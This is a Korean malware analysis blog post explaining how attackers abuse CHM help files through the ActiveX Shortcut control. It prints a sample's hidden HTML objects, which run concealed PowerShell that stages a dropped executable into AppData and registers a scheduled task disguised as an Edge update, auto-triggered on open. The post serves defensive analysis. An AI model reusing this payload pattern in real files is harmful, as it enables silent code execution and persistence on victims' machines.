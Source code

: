 ```yaml
---
title: '📑 "CHM", Malware Analysis Guide'
date: 2024-12-08 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, chm]
render_with_liquid: false
---
```


CHM 파일(Compiled HTML Help File)은 도움말 파일이라고도 불리며, Microsoft에서 개발한 파일 형식으로 HTML 문서와 관련 리소스를 하나의 파일로 압축하여 저장한 파일입니다. 공격자는 CHM 파일이 ActiveX를 지원하는 것을 악용하여, 단순히 CHM 파일을 오픈하는 것만으로 사용자의 간섭없이 악성코드를 실행합니다.


## <mark>1. CHM 파일</mark>

CHM 파일은 일반적으로 윈도우 도움말에 활용되는 파일입니다. 공격자는 해당 부분을 악용하여 마치 정상 파일처럼 위장하여 악성코드를 실행하게 만듭니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174428810-1733664241224-1.png" alt="IMG-chm 분석-20240911174428810" style="zoom:80%;" />

CHM 파일을 실행하게 되면, hh.exe라는 microsoft html help executable program을 사용하여 실행되게 됩니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174711040-1733664261923-5.png" alt="IMG-chm 분석-20240911174711040" style="zoom:80%;" />

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174737407-1733664268659-7.png" alt="IMG-chm 분석-20240911174737407" style="zoom:67%;" />

HTML 문서와 리소스가 하나의 파일로 압축되어 있기 때문에 압축 해제를 통해 파일 내부를 확인할 수 있습니다. 내부에 의심스러운 파일이 존재하는지, 존재하는 HTML 파일 내에 ActiveX 관련 코드가 존재하는지 확인할 필요가 있습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174511185-1733664278673-9.png" alt="IMG-chm 분석-20240911174511185" style="zoom: 80%;" />



## <mark>2. ActiveX Shortcut</mark>

ActiveX Shortcut Command는 지정된 작업의 Shortcut을 생성합니다. 여기서 중요한 속성은 Item1으로 실행 파일에 대한 경로와 매개변수를 지정할 수 있습니다. 공격자는 해당 속성에 명령어를 삽입하여 악성 행위를 수행합니다.

> [!NOTE]   
> 🔗[About ActiveX Shortcut Command](https://documentation.help/HTML-Help-ActiveX/ocx_shortcut.htm)

| **Property**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [Button](https://documentation.help/HTML-Help-ActiveX/ocx_pbutton.htm) | Specifies the button style. Optional.                        |
| [Command](https://documentation.help/HTML-Help-ActiveX/ocx_pcommand.htm) | Calls the **Shortcut** command.                              |
| [Font](https://documentation.help/HTML-Help-ActiveX/ocx_pfont.htm) | Specifies the font attributes. Optional.                     |
| [Item1](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the file path to the executable file (.exe) for the program, and any parameters to be sent to the program. These values are delimited by a comma. HTML Help does not support `%WINDIR%` or other system variables in the file path. |
| [Item2](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the message ID of a standard Windows message, a *wPARAM* value, and a *lPARAM* value. These values are delimited by a comma. |
| [Text](https://documentation.help/HTML-Help-ActiveX/ocx_ptext.htm) | Specifies the link text. Optional.                           |



## <mark>3. 악성 CHM 샘플 분석</mark>

### ▪ <u>파일 내부 확인</u>

압축 해제를 통해 CHM 파일 내부를 확인하여 의심스러운 파일이 존재하는지 확인합니다. 샘플에서는 Helpstore.exe 라는 실행 파일이 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174149846-1733664290193-11.png" alt="IMG-chm 분석-20240911174149846" style="zoom:80%;" />

해당 파일을 PPEE, pestudio를 사용해 확인해보니 의심스러운 리소스가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911175412249-1733664311365-13.png" alt="IMG-chm 분석-20240911175412249" style="zoom:67%;" />



### ▪ <u>HTML 파일 확인</u>

CHM 파일을 실행하게 되면, 내부에 존재하는 HTML 파일들이 실행되게 되기 때문에 내부에 악성 스크립트가 존재하는지 확인할 필요가 있습니다. 샘플 내부에는 index.html 파일이 존재했고 코드를 확인해보니 ActiveX ShortCut 명령어가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/image-20241208230607334.png" alt="image-20241208230607334" style="zoom:80%;" />

### ▪ <u>ActiveX ShortCut 분석</u>

공격자는 **CLSID_HHCtrl Object = {adb880a6-d8ff-11cf-9377-00aa003b7a11}**를 사용해 HHCtrl Object를 생성하여 ActiveX Shortcut을 사용합니다. Item1 속성을 확인해보니, Helpstore.exe를 드롭하고 schtasks를 사용하여 스케줄러에 등록하는 cmd 명령어가 발견되었습니다.

```html
<OBJECT id =qjswc classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1 style="display:none;">
	<PARAM name = "Command" value = "ShortCut">
	<PARAM name = "Button" value = "Bitmap::shortcut">
	<PARAM name = "Item1" value = ',cmd.exe,/c start /min /b powershell.exe -command "If (Test-Path \"$env:TEMP\") { Get-ChildItem \"$env:TEMP\" -File | Where-Object { $_.Length -eq 1596928 } | ForEach-Object { Copy-Item -Path $_.FullName -Destination \"$env:APPDATA\\Helpstore.exe\" -Force } }"'>
</OBJECT>

<OBJECT id=oheam classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=100 height=100 style="display:none;">
	<PARAM name="Command" value="ShortCut">
	<PARAM name="Button" value="Bitmap::shortcut">
	<PARAM name="Item1" value=',cmd.exe,/c start /min /b powershell.exe -WindowStyle Hidden -Command "schtasks /create /tn \"MicrosoftEdgeUpdateTask\" /tr \"%APPDATA%\Helpstore.exe\" /sc ONCE /st (Get-Date).AddMinutes(1).ToString(\"HH:mm\")"'>
</OBJECT>
```

악성 CHM 파일은 생성된 HHCtrl Object의 Click 메서드를 사용하여, CHM 파일을 실행하게 되면 지정한 명령이 실행되게 코딩되어 있습니다.

```html
<script>
	qjswc.Click();
	oheam.Click();
</script>
```

